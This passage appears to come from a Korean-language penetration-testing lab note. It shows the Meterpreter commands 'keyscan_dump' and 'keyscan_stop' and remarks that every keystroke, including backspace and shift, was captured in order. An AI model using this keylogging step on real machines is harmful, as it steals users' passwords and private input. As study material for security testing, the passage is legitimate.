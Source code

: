 ```jsx
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```

결과창을 확인해보자!

작성한 텍스트 뿐만 아니라 눌러진 모든 key가 순서대로 출력되었다.(backspace, right shift ..)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0bc20012-45e5-43bc-aea7-4c33b6b2a906/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0bc20012-45e5-43bc-aea7-4c33b6b2a906/Untitled.png)
